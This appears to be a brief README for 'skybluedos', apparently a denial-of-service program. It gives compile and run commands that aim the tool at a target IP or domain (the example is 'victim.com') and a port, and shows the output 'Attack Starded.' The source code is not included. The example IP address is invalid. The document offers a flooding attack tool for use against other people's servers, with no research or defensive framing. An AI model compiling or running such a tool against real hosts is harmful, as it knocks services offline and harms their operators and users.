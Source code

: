 # skybluedos

1.
gcc skybluedos.c -o skybluedos
2.
./skybluedos (Ip Eg. 85.965.21.78 or Domain Eg. victim.com) (Port Eg. 80)
Attack Starded.
